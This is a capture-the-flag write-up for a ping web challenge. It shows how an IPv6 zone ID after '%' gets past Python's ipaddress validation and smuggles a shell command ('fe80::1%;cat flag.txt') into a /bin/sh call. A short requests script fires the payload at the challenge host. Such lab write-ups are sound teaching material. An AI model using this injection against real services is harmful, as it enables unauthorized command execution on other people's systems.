




# solution

This challenge is interesting, you must know gg searching a lots to solve this problem. I try to put some common ips but its always display
<br>
Hmm maybe the server do it on purpose, let look carefully at source code.

```
try:
        addr = ipaddress.ip_address(host)
    except ValueError:
        error_msg = 'Invalid IP address'
        print(error_msg)
        return render_template('index.html', result=error_msg)

    cmd = f'ping -c 3 {addr}'
    try:
        output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=8)
        return render_template('index.html', result=output.decode('utf-8'))
```

i wonder maybe i can make something with **ipaddress.ip_address()** so i goolgle searching and find this site. **https://docs.python.org/3/library/ipaddress.html#module-ipaddress**. And after read, i find interesting thing.
<br>
let talk sth about this **%** symbol.

```
In IPv6, link-local addresses (e.g. fe80::/10) can only work on a local network. This means they are only used for communication between devices on the same network (not over the internet).

Why is the % sign needed when there are multiple connections, such as Wi-Fi and Ethernet?

If your computer has multiple network connections at the same time, such as Wi-Fi and Ethernet:

Both connections have their own link-local addresses, and these addresses can be the same (e.g. fe80::1 can exist on both Wi-Fi and Ethernet).

But the fe80::1 address on Wi-Fi is different from the fe80::1 address on Ethernet, because each network connection is a different path.

What does the % sign do?
The % sign specifies which network interface the IPv6 address will use. For example:

fe80::1%eth0 means the fe80::1 address on the Ethernet interface (eth0).

fe80::1%wlan0 means the fe80::1 address on the Wi-Fi interface (wlan0).

Without the % sign, the system doesn't know whether you want to use Wi-Fi or Ethernet, because the same address can appear on both interfaces.

In short:
Wi-Fi and Ethernet are two different network connections, and the same link-local IPv6 address can exist on both.

The % sign allows you to specify which interface you want to use when communicating over IPv6.
```

In sum up, if you're lazy, you just know that you can put anything after **%**. Let try basic payload to test if it can trigger cmdI.
<br>
Good, now we just read the flag
<br>

Here is python code for this challenge.

```
import requests

url = "http://host3.dreamhack.games:14295/ping?host="
payload = "fe80::1%;cat%20flag.txt"

url_payload = f"{url}{payload}"
res = requests.get(url=url_payload)
print(res.text)
```
